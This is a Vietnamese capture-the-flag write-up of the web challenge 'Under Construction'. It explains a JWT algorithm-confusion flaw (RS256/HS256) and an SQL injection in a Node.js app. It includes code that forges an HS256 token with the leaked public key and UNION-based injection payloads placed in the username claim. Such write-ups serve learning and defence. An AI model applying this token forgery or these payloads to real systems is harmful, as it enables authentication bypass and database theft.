





Under Contruction dẫn người dùng thẳng vào một trang login 



Mình đã thử detect SQLi ở đây tuy nhiên không thể khai thác được gì, thử đăng ký một tài khoản đơn sau đó login vào



OK giao diện này là lý do challenge có tên là 'under construction' 😂😂. Và trong giao diện này không hề có thêm chức năng gì. Thử xem cookie có gì hay không ?

> session=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJwayI6Ii0tLS0tQkVHSU4gUFVCTElDIEtFWS0tLS0tXG5NSUlCSWpBTkJna3Foa2lHOXcwQkFRRUZBQU9DQVE4QU1JSUJDZ0tDQVFFQTk1b1RtOUROemNIcjhnTGhqWmFZXG5rdHNiajFLeHhVT296dzB0clA5M0JnSXBYdjZXaXBRUkI1bHFvZlBsVTZGQjk5SmM1UVowNDU5dDczZ2dWRFFpXG5YdUNNSTJob1VmSjFWbWpOZVdDclNyRFVob2tJRlpFdUN1bWVod3d0VU51RXYwZXpDNTRaVGRFQzVZU1RBT3pnXG5qSVdhbHNIai9nYTVaRUR4M0V4dDBNaDVBRXdiQUQ3MytxWFMvdUN2aGZhamdwekhHZDlPZ05RVTYwTE1mMm1IXG4rRnluTnNqTk53bzVuUmU3dFIxMldiMllPQ3h3MnZkYW1PMW4xa2YvU015cFNLS3ZPZ2o1eTBMR2lVM2plWE14XG5WOFdTK1lpWUNVNU9CQW1UY3oydzJrekJoWkZsSDZSSzRtcXVleEpIcmEyM0lHdjVVSjVHVlBFWHBkQ3FLM1RyXG4wd0lEQVFBQlxuLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0tXG4iLCJpYXQiOjE2MzA4NTc1NDF9.EU9cSpXjqAbjMwbg68QSKDpv-StQSWvjjHhI_5-4eNbyEk_sfnKcsFShYChzc3YsISG6ZNB58yfegyaK6SC41tBrmXBJb2U80eLk1F5QWf6PKsjVWXnPbNIcse6iCSd6UR0gVdXCN5q0I6VesipTr0dGRloUKYkAGEb17FUt2k1xdMPCLiinNXIQZ_3i4Gd0hpvo9rqA4HVWRWZgNqUL5O2qrm1otx8OpdGg4InWy9WaC9TiyLAdjkUtJSNdn_1IiiYn0tt8858jWyaVAm_-EEztGDikfkghdYehkuFEum7fZ0f4Ut9YgjjkFN6CQu4mg5RK5WcfGiq6uf69Y7AOrw

Nhận thấy rằng session này có dạng aa.bb.cc => Khả năng cao session này là Json Web Token (Jwt). Sau khi thử thay đổi nhỏ trên giá trị session, mình nhận được lỗi 500 từ server.
Vậy blackbox chỉ dừng lại với các chỗ cần lưu ý là form đăng ký đăng nhập và session. Việc cần làm tiếp theo là review code.

```javascript
// AuthMiddleware class
module.exports = async (req, res, next) => {
    try{
        if (req.cookies.session === undefined) return res.redirect('/auth');
        let data = await JWTHelper.decode(req.cookies.session);
        req.data = {
            username: data.username
        }
        next();
    } catch(e) {
        console.log(e);
        return res.status(500).send('Internal server error');
    }
}
```

Hệ thống sử dụng middleware AuthMiddleware để kiểm tra user đã đăng nhập hay chưa bằng cách decode jwt token để lấy được username. Sau đó username này được đưa vào hàm DBHelper.getUser 
để lấy thông tin user đã đăng nhập.

```javascript
// DBHelper class
getUser(username){
    return new Promise((res, rej) => {
        db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
            if (err) return rej(err);
            res(data);
        });
    });
}
```

Đoạn code này đưa username được lấy từ token vào câu query => **SQLi**. 

Tiếp theo để exploit được cần tạo một token thủ công hợp lệ. Do mình chỉ hiểu cơ bản và biết cách sử dụng jwt mà không quan tâm lắm đến thuật toán mã hóa mà nó sử dụng, nên cần bỏ thời gian để tìm hiểu thêm. Sau một thời gian thì tìm được một [tài liệu](https://www.netsparker.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/) về một lỗi tồn tại bên trong các thư viện jwt.

> **Algorithm confusion**
> 
> In many JWT libraries, the method to verify the signature is:
> - verify(token, secret) – if the token is signed with HMAC
> - verify(token, publicKey) – if the token is signed with RSA or similar
> 
> Unfortunately, in some libraries, this method by itself does not check whether the received token is signed using the application’s expected algorithm. That’s why in the case of HMAC this method will treat the second argument as a shared secret and in the case of RSA as a public key.
> If the public key is accessible within the application, an attacker can forge malicious tokens by:
> - Changing the algorithm of the token to HMAC
> - Tampering with the payload to get the desired outcome
> - Signing the malicious token with the public key found in the application
> - Sending the JWT back to the application
> 
> The application expects RSA encryption, so when an attacker supplies HMAC instead, the verify() method will treat the public key as an HMAC shared secret and use symmetric rather than asymmetric encryption. This means that the token will be signed using the application’s non-secret public key and then verified using the same public key.

Hệ thống sinh token sử dụng mã hóa bất đối xứng RS256

```javascript
async sign(data) {
    data = Object.assign(data, {pk:publicKey});
    return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
},
async decode(token) {
    return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
}
```

Tuy nhiên verify lại cho phép mã hóa đối xứng HS256. 
Khi đó có thể tạo ra một token hợp lệ bằng thuật toán mã hóa đối xứng HS256 và public key. Khi token được verify, jwt sẽ coi public key như là shared key.
Public key có được bằng cách decode token lấy được sau khi đăng nhập.



Đến đây mình sử dụng các tool online tuy nhiên qua bao nhiêu lần tạo token hệ thống đều trả về lỗi 500 😶. Quá cay cú mình code lại đoạn sinh token theo đúng ngôn ngữ và framework của challenge.

```javascript
const jwt = require('jsonwebtoken');

var publicKey = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n"
var payload = {
    "username": "hoangnd",
    "pk": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n",
    "iat": 1630851097
}

var token = console.log(jwt.sign(payload, publicKey)) // Mặc định hàm sign sẽ sử dụng mã hóa đối xứng HS256
```

Sau khi sử dụng token từ code này thì worked. Thử detect SQLi qua ```username="hoangnd'"``` xem thế nào



SQLi verified. Để ý răng kết quả query database trả về trong message ở trang chủ. Tiếp theo là dùng UNION attack ```username="aaa' union select 'mot','hai','ba'; -- a"```, phần username hiển thị trên message ở trang chủ như sau



Như vậy data có thể lấy ra từ column thứ hai của câu query. Bước tiếp theo chỉ cần thêm một ít kiến thức về query trong SQLite để lấy được flag, mình xin phép dừng bài viết ở đây.
